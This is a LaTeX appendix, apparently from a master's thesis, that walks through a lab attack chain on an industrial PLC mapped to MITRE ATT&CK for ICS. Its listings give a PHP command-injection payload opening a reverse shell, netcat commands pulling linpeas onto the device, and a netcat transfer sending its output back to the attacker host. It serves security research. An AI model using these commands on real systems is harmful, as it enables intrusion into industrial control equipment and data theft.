 \documentclass[Master,BMR,english]{twbook}
\begin{document}
\appendix

\chapter{Appendix B}
\label{tab:attack_chain_steps}


\section*{Initial Access}

\textbf{Exploit Public-Facing Application (T0819):} A weakness in the PHP server allows the Attacker to perform command injection in the PHP server and thus establish a remote shell to his machine. 

\begin{listing}[htbp]
\begin{verbatim}
# Start the PHP server on PLC1:
admin@axcf2152:~$ cd my_master/php_app/
admin@axcf2152:/opt/plcnext/my_master/php_app$ php -S 0.0.0.0:6705

# The attack starts by starting a Netcat listener on the Kali machine on 
# port 9001 so that a remote shell can connect:
nc -lvnp 9001
#Then all that remains is to insert the following input in the PHP application
hello; sh -i >& /dev/tcp/192.168.137.246/9001 0>&1
\end{verbatim}
\caption{Exploit Public-Facing Application}
\end{listing}

\section*{Execution}

\textbf{Command-Line Interface (T0807):} This includes commands launched on PLC1 via the remote shell, especially starting the \texttt{linpease.sh} script.
\begin{listing}[htbp]
\begin{verbatim}

# Commands for shell interaction enhancement:
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo
export SHELL=bash
export TERM=xterm
stty rows 24 columns 80
export TERM=xterm256-color

# Sending linpease to PLC1:
sudo nc -q 5 -lvnp 80 < linpeas.sh
# Receiving linpease at PLC1:
cat < /dev/tcp/192.168.137.246/80 > linpease.sh

# Runing linpease and saving the output:
sh linpease.sh > linpease

# Opening a listener on the Kali machine in order for  
# receiving the linpease output file:
nc -lvnp 9002 > linpease_out
# Sending of the linpease output file from the PLC1 
nc 192.168.137.246 9002 < linpease
\end{verbatim}
\caption{Command-Line Interface}
\end{listing}
\end{document}
